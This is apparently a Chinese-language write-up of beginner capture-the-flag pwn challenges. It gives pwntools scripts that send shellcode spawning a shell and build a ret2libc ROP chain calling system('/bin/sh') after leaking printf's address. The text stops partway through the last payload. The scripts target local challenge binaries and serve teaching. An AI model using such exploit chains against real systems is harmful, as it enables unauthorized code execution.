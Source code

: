 很简单的ret2text的一个题，防护开的也不多，比较板子，只需要去控制返回地址执行backdoor即可。

# ezshellcode

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug', terminal=['tmux', 'splitw', '-h'])
p = process('./pwn')
# p = gdb.debug('./pwn', 'b main')
p.sendline(b'4')
p.recvuntil(b'permissions you just set.')
payload = asm(shellcraft.sh())
print('length:',len(payload))
p.send(payload)
p.interactive()

```

同样是一道shellcode的板子，但是此处我添加了一个权限的选择，你需要起码先了解shellcode是一个什么概念，然后去选取此处应该更改为什么权限，之后再通过pwntools库去生成一个对应架构的shellcode发过去，此处新手应该注意，pwntools的shellcraft生成shellcode的时候，是需要你指定context里的架构的，否则会出现问题，shellcode的本质其实就是指令，而不同架构的指令显然不同，所以希望大家注意这一点，另外，shellcode其实也有很多花样，感兴趣的同学可以去pwn college有一个shellcode的模块，比较有意思，里面会对你的shellcode进行各种的限制，包括但不限于开启沙箱限制系统调用，限制长度，限制某些指令的使用，做完这个模块可以对shellcode有一个更好的理解。

# 认识libc

```python
from pwn import *

elf = ELF('./pwn')
libc = ELF('./libc.so.6') 
p = process('./pwn')
# p = remote('', )


p.recvuntil(b"the location of 'printf': ")
leaked_printf_str = p.recvline().strip()
leaked_printf_addr = int(leaked_printf_str, 16)
log.success(f"Leaked printf address: {hex(leaked_printf_addr)}")


libc.address = leaked_printf_addr - libc.symbols['printf']
log.success(f"Calculated libc base address: {hex(libc.address)}")

system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh\x00'))
log.success(f"Found system address: {hex(system_addr)}")
log.success(f"Found '/bin/sh' string address: {hex(bin_sh_addr)}")



pop_rdi = libc.address + 0x000000000002a3e5
ret = libc.address + 0x0000000000029139



offset = 64 + 8 

payload = flat([
    b'A' * offset,
    p64(ret),                
    p64(pop_rdi),            
    p64(bin_sh_addr),        
    p64(system_addr)         
```